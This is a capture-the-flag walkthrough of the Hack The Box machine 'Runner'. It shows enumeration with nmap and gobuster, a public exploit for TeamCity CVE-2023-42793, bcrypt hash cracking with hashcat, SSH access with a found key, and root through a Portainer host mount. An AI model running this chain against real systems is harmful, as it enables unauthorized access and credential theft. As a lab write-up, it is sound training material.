<div style="display: flex; align-items: center;">
  
  <div>
    <p style="font-size:35px;"><b>Runner</b></p>
    <p style="font-size:20px;">Linux • <font color="#fbaf3f">Medium</font></p>
  </div>
</div>

## Enumeration

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 05:46 EDT
Warning: 10.10.11.13 giving up on port because retransmission cap hit (6).
Nmap scan report for runner.htb (10.10.11.13)
Host is up (0.070s latency).
Not shown: 65397 closed tcp ports (conn-refused), 135 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
|_http-title: Runner - CI/CD Specialists
|_http-server-header: nginx/1.18.0 (Ubuntu)
8000/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 874.45 seconds
```

We will also try some (sub)directory fuzzing.

I tried a few different wordlists, but I couldn't find anything.

The `runner.htb` website doesn't seem too interesting, only having a basic home page, though mentioning 2 employees, which might be useful sometime later.

So I tried using `cewl`:
```bash
$ cewl http://runner.htb -w wordlist.txt
```

```bash
$ gobuster vhost -u http://runner.htb -w wordlist.txt --append-domain           
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://runner.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        wordlist.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: TeamCity.runner.htb Status: 401 [Size: 66]
Progress: 285 / 286 (99.65%)
===============================================================
Finished
===============================================================
```

## TeamCity web UI

Accessing the website, we are greeted with a login page:\
 

Online, we find `CVE-2023-42793`:
> In JetBrains TeamCity before 2023.05.4 authentication bypass leading to RCE on TeamCity Server was possible

We will be using [H454NSec's exploit](https://github.com/H454NSec/CVE-2023-42793) to create an admin user:
```bash
$ python3 CVE-2023-42793.py -u http://teamcity.runner.htb
```

In the admin panel, we find a `users` page which might be useful later:\


Along with that, we see the `backup` page:\


We see that creating a backup includes a database too! We create a backup, and download the `.zip` file.

## Cracked hashes

Inside we find this:
```
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1719857944579, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, admin.ilsp, $2a$07$5KCbvTBQB7Jtca6o067A9u/ZwAwlXonaA5d.5WLXA.r.szqHi/YDu, , admin.Ilsp@lol.omg, , BCRYPT
12, h454nsec1803, $2a$07$h2En.V5LkstbQAC/pYcJSu7mlNCn65CNn5Ax2/HZlsq3J7H4.x7jm, , "", 1719857991766, BCRYPT
```

We will try to crack these hashes.
```bash
$ hashcat -m 3200 -a 0 -o cracked.txt bcrypt_hash.txt /usr/share/wordlists/rockyou.txt
```

We were able to find Matthew's login credentials: `matthew:piper123`\
Trying to use the password to connect through ssh didn't seem to work.

## SSH

Looking some more around the files we find a private key in the config folder, and judging from a config file it looks like it's Matthew's! I tried to connect as Matthew using the private key, but that didn't seem to work, perhaps it's someone else's key.\
I tried using the username `john` (the admin name found earlier), and that finally worked!
```bash
$ chmod 600 id_rsa
$ ssh john@runner.htb -i id_rsa
```

We now find the user flag in our home directory.

## Looking around

I found `matthew` in the `/home` directory as well, but I couldn't switch user using the password I found.

Using `linpeas` I noticed this:\


And then later also this:\


## Portainer administration

Accessing `portainer-administration.runner.htb` from our machine we see this login page:\


This time looks like we could get to use Matthew's earlier found credentials!

Here we find our portainer version at the bottom of the page:\


## Privilege Escalation

I found online [this article for privilege escalation in Portainer](https://rioasmara.com/2021/08/15/use-portainer-for-privilege-escalation/).

This article is from 2021, so it seems to be using an older version with a few different options than the "current" one we have here, but we'll make it work.

First of all, we need to create a Volume.

However `Path` was apparently not an acceptable value, so we will be using these options, as found [on a stackoverflow answer](https://stackoverflow.com/questions/71734166/mount-a-directory-from-docker-container-to-the-linux-ubuntu-host-machine):\


We will be using this existing image:\


Now we create our container:\


With the following options:\
\


We deploy our container, go to `console`, and connect to get root flag!


